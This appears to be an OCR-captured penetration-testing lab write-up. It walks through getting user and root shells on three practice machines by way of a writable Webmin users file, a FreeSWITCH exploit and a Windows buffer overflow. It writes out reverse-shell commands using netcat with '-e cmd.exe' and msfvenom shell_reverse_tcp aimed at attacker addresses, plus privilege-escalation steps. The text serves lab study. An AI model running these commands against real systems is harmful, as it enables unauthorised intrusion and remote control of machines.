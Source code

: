 1. Locate Webmin’s writable miniserv.users with Linux Enumeration script
2. Use openssl passwd -1 "yourpassword"
3. Overwrite the “x” in the miniserv.users with the hash generated
4. Run sudo systemctl restart webmin
5. Browse port 10000 and login with root/yourpassword
6. Execute nc in the System>Running Process
7. Root shell!

```bash
Asystole (.105)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
TryHackMe’s Steel Mountain
Exploit in Getting User
1. Port 8081 is running FreeSWITCH
2. Use this exploit: https://www.exploit-db.com/exploits/47799
3. Copy the exploit and modify the file extension from txt to py
4. Run: python3 47799.py 192.168.XX.105 dir
5. dir is a command in windows =.=
6. Next step is to upload a netcat binary. For this one use Powershell
7. Execute reverse shell using netcat: python3 47799.py 192.168.XX.105 “.\nc.exe -nv
192.168.XX.XX 445 -e cmd.exe”
1. User shell!
Privilege Escalation to Root
1. Use winPEAS to gather info and look for a vulnerable service name.
2. The machine has a vulnerable service path (Unquoted Service Path)
3. Rename the existing service
4. Create a reverse shell (exe) in msfvenom
5. Upload it to the path folder of the service
6. Setup netcat listener
7. Reboot the target machine
8. Root!

```bash
b0f-vic (.111)
```
Operating SystemWindows
Points25
Similar Machine (Root)VulnHub’s Brainpan
Steps to Root
1. Controlling Extended Instruction Pointer (EIP) Register - ruby
/usr/share/metasploit-framework/tools/pattern_create.rb -l 3000
1. Run the Debugger and run the application then run the exploit
2. Get the EIP value - ruby /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l
3000 -q XXXXXXXX
1. Identify Bad Characters by modifying the exploit and putting the byte array.
2. Redirecting Execution Flow using Mona modules
3. !mona modules - to list down all the modules
4. Then look for modules that has no memory protections such as ASLR or DEP
5. Then make sure that it doesn’t have bad characters in its address
6. The only module that is suited for my criteria is offsec_pwk_dll.dll
7.  Double click the chosen dll
8.  And input !mona find -s "\xff\xe4" -m offsec_pwk_dll.dll
9.  Get the instruction address of JMP ESP
10. Create a shell code - msfvenom -p windows/shell_reverse_tcp LHOST=192.168.XX.43
LPORT=1337 -f c -a x86 --platform windows -b "BAD CHARS HERE"
1.  Run the exploit
2.  Root shell!
